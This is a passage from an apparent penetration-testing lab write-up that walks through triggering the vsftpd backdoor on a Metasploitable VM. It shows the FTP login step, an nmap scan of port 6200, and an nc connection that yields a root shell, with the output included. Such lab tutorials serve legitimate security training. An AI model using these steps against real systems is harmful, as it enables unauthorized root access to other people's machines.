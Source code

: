 **Result:**

```
331 Please specify the password.
```

Here we can type whatever password but must start with `PASS`, e.g.:

```
PASS whatever
```

---

## Connecting to the Backdoor Shell

The backdoor doesn’t use FTP port (21) for the shell — it opens a separate service on TCP port 6200.

In a new terminal, scan port 6200:

```bash
sudo nmap -p 6200 192.168.100.10
```

Connect to port 6200:

```bash
nc 192.168.100.10 6200
```

Check if we have root shell access by running:

```
whoami
uname -a
id
```

**Result:**

```
┌──(noah㉿kali)-[~]
└─$ nc 192.168.100.10 6200
whoami
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
```

![Connecting to port 6200 for backdoor](images/connecting_to_port_6200_for_backdoor.png)
---

